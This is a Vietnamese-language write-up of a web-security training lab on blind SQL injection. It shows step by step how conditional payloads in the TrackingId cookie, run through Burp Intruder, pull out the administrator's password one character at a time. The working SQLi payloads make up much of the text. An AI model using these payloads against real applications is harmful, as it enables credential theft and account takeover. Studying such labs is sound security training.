# SQL Injection Lab 11: Blind SQL Injection with Conditional Responses

## Mục tiêu
Khai thác blind SQLi qua cookie `TrackingId` để tìm mật khẩu của `administrator`, sau đó đăng nhập và hoàn thành lab.

## Đề bài

<br><br>

## Bước 1: Xác định điểm tiêm SQLi trong TrackingId
Bắt request bằng Burp Repeater và sửa trực tiếp cookie `TrackingId`.


<br><br>

Payload đúng điều kiện:

```sql
' OR 1=1 --
```

Payload sai điều kiện:

```sql
' OR 1=2 --
```

Khi điều kiện đúng, trang có chuỗi `Welcome back!`; khi sai thì chuỗi này biến mất.


<br><br>

## Bước 2: Xác nhận bảng users và user administrator tồn tại
Kiểm tra bảng `users` có dữ liệu:

```sql
' OR (SELECT 'a' FROM users LIMIT 1)='a' --
```

Kiểm tra tồn tại user `administrator`:

```sql
' OR (SELECT 'a' FROM users WHERE username='administrator')='a' --
```


<br><br>

<br><br>

## Bước 3: Dò độ dài mật khẩu
Dùng điều kiện độ dài để kiểm tra `Welcome back!`:

```sql
' OR (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a' --
```

Thiết lập Intruder (Sniper) với payload số từ `1..25` cho biểu thức `LENGTH(password)>§1§`.


<br><br>

<br><br>

Quan sát cột `Length`: khi điều kiện còn đúng thì response dài hơn (có `Welcome back!`). Từ kết quả, suy ra độ dài mật khẩu là **20**.


<br><br>

## Bước 4: Dò từng ký tự của mật khẩu
Payload điều kiện theo từng vị trí ký tự:

```sql
' OR (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§2§' --
```

Cấu hình Intruder `Cluster bomb`:
- Payload 1: số từ `1..20` (vị trí ký tự)
- Payload 2: danh sách ký tự `a-z` và `0-9`


<br><br>

<br><br>

Sort theo `Length` để chọn các request có phản hồi chứa `Welcome back!`, rồi ghép ký tự theo đúng vị trí. Từ kết quả trong ảnh, mật khẩu thu được là:

```text
9p34qp0ghkofsraakjaz
```


<br><br>

## Bước 5: Đăng nhập administrator
Dùng mật khẩu tìm được để đăng nhập `administrator` và solve lab.


<br><br>

## Payload solve

```sql
' OR (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§2§' --
```

## Kết quả
Lấy được mật khẩu `administrator` là `9p34qp0ghkofsraakjaz` và hoàn thành lab.
